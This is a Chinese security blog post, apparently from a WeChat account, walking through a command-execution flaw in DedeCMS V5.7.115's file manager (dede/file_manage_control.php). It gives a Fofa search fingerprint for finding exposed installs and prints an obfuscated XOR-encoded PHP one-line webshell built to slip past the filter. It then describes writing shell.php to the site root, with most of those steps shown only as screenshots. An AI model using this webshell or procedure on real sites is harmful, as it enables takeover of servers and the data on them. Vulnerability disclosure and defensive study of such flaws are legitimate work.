 #  【RCE】Dedecms V5.7.115 存在命令执行漏洞   
 WK安全   2025-03-22 20:12  
  
![图片](https://mmbiz.qpic.cn/sz_mmbiz_jpg/lSQtsngIibibSOeF8DNKNAC3a6kgvhmWqvoQdibCCk028HCpd5q1pEeFjIhicyia0IcY7f2G9fpqaUm6ATDQuZZ05yw/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
点击上方  
蓝字  
关注我们 并设为  
星标  
## 0x00 前言  
  
    织梦  
内容管理系统(  
DedeCms  
) 以简单、实用、开源而闻名，是国内最知名的  
PHP  
开源网站管理系统，也是使用  
用户  
最多的PHP类  
CMS系统  
，在经历多年的发展，版本无论在功能，还是在易用性方面，都有了长足的发展和进步  
  
Fofa指纹:  
app="DedeCMS"  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5ccfc3If7RfHJf52bPgrNmWHdYQrqlO3fnRAsPzlH234gxEBiacUaKictlljmPkrojfVN0w11pkZOgw/640?wx_fmt=png&from=appmsg "")  
## 0x01 漏洞分析&复现  
  
该漏洞点位于dede/file_manage_control.php  参数str过滤不完善导致的，可以看到当fmdo=edit执行此代码，Filename跟str均可控  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5ccfc3If7RfHJf52bPgrNmWOJ73bbOnVYoXQNCXmwlveqxTe8wDgIHZyX1dgHibFWcAAsdOSylztgQ/640?wx_fmt=webp&from=appmsg "")  
  
尝试写入一句话木马  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5ccfc3If7RfHJf52bPgrNmW0hU4bOhxr0jqib5PApv5iaYrfO8fvTj7EOSOe55wMyCskz65pkBNoEKA/640?wx_fmt=webp&from=appmsg "")  
  
发现被过滤   
  
往上翻发现过滤代码  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5ccfc3If7RfHJf52bPgrNmWxOteSEpoofVY7jGsJDa4jmGeC7Q1dL5YvIGwx4ux0j1ln4Ticoj3TZg/640?wx_fmt=webp&from=appmsg "")  
  
掏出精简的小马子绕过  
```
<?  @("Y;HJ(Z"^"8H;/Z.")(${"~?}$"^"!x8p"}[1]);
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5ccfc3If7RfHJf52bPgrNmWDDfbB57ibhIAXWnCu9GRakVQDsjb15WBVToGcgEn8oheUHibt9NLnXyQ/640?wx_fmt=webp&from=appmsg "")  
  
发现csrf_check  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5ccfc3If7RfHJf52bPgrNmWUtupwqndfvicib4AaxBeHLCrkicbItIvLRNSxYOra9G0yEhCDcx2kx3Rg/640?wx_fmt=webp&from=appmsg "")  
  
发现对csrf进行检测  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5ccfc3If7RfHJf52bPgrNmWosgiatc4k0vK6iamk5zSa514rS3EyhbdcRxYW86icGWI6dbzxKianibVDWQ/640?wx_fmt=webp&from=appmsg "")  
  
直接找到前台功能点  /dede/file_manage_main.php?activepath=  
  
随便找一个可以编辑的文件  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5ccfc3If7RfHJf52bPgrNmWfIibu63mwoeySSPvl2IKMticLaia5SbXuL5NExua4cYCYyLYRy2kcdPkw/640?wx_fmt=webp&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5ccfc3If7RfHJf52bPgrNmWh0JZZ0qR6tFP34aTHK7I0UXIt6ml2X1GPaKgGwRxbj9MsQ0MoU5wRA/640?wx_fmt=other&from=appmsg "")  
  
抓包  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5ccfc3If7RfHJf52bPgrNmWibSAbtIrP2RWDUh1AHwhuvKJibTAcQoQfbrPGHlrsavD8XMNicGb6HH7w/640?wx_fmt=webp&from=appmsg "")  
  
把shell.php写到根目录  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5ccfc3If7RfHJf52bPgrNmW512wjaia5eKqwJRa6etIF8E3GnLticB08HQ7HnRtM4rU9zGhLujCZNSg/640?wx_fmt=webp&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5ccfc3If7RfHJf52bPgrNmW4eUGf9kYA14FqEAWHs4lzAFWyImdxPukXHPiaEN1WkpQEp7Joz0RgpQ/640?wx_fmt=webp&from=appmsg "")  
  
